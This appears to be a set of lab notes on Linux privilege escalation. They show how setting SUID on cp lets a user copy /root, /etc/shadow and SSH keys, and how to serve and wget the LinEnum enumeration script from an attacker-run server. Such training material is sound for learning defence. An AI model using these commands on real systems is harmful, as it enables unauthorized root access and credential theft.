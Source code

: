At the moment, the "examplefiles" are not executable as there is no "x" present for either the user or group. When setting the executable permission (chmod +x filename), this value changes (note the "x" in the snippet below -rwxrwxr):

    -rwxrwxr-x 1 cmnatic cmnatic 0 Dec 8 18:43 backup.sh 

    /etc/sudoers


|Filename	|File Owner	|User who is executing the file	|User that the file is executed as|
|---|---|---|---|
|ex1	|root	    |cmnatic	|root|
|ex2	|cmnatic	|cmnatic	|cmnatic|
|ex3	|service	|danny	    |service|


    whereis cp

Use the given path to cp:

    chmod u+s /usr/bin/cp

Note how the cp executable is owned by "root" and now has the SUID permission set:

    cmnatic@docker-ubuntu-s-1vcpu-1gb-lon1-01:~$ ls -al /usr/bin | grep "cp"
    -rwsr-xr-x 1 root root 153976 Sep 5 2019 cp

The cp command will now be executed as root - meaning we can copy any file on the system. Some locations may be of interest to us:

- copying the contents of other user directories (i.e. bash history, ssh keys, user.txt)
- copying the contents of the "/root" directory (i.e. "/root/flag.txt")
- copy the "/etc/passwd" & "/etc/shadow" files for password cracking

Let's confirm this by using find to search the machine for executables with the SUID permission set: 

    find / -perm -u=s -type f 2>/dev/null

And now using cp to copy the contents of "/root" into our directory ("/home/cmnatic"):

    cp -R /root/ .
    ls -lah /home/<user>/root

LinEnum Script:

    wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh

Make File Downloadable:

    python3 -m http.server 8080

Directory with permission:

    /tmp

Download Script from Source:

    wget http://<ip_server>:8080/LinEnum.sh
